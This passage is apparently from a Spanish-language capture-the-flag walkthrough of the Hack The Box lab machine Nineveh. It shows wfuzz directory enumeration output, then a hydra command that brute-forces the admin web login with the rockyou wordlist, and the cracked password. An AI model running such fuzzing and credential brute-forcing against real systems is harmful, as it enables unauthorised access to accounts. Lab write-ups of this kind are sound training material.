 ```bash
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://nineveh.htb/FUZZ
Total requests: 220547

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                            
=====================================================================

000000835:   200        485 L    974 W      11430 Ch    "db"                                                                                                                                               
000045227:   200        1 L      3 W        49 Ch       "https://nineveh.htb/"                                                                                                                             
000095511:   403        11 L     32 W       300 Ch      "server-status"                                                                                                                                    
000095763:   200        5 L      7 W        71 Ch       "secure_notes"                                                                                                                                     
```

Chequeamos la web version http y fuzzeamos como en https a ver si encontramos lo mismo o no.
```bash
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.43/FUZZ
Total requests: 220547

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                            
=====================================================================

000003008:   200        1 L      3 W        68 Ch       "department" 
```
Encontramos un login `/department/` a nivel de `http://10.10.10.43/`

En el cual tambien podemos probar a hacer fuerza bruta, y probando usuarios vemos que para el usuario Admin tenemos una respuesta diferente dandonos a entender que el usuario 
admin existe a nivel del loguin web.
```bash
# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-form-post "/department/login.php:username=^USER^&password=^PASS^:Invalid Password\!" -V -t 64

[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
```
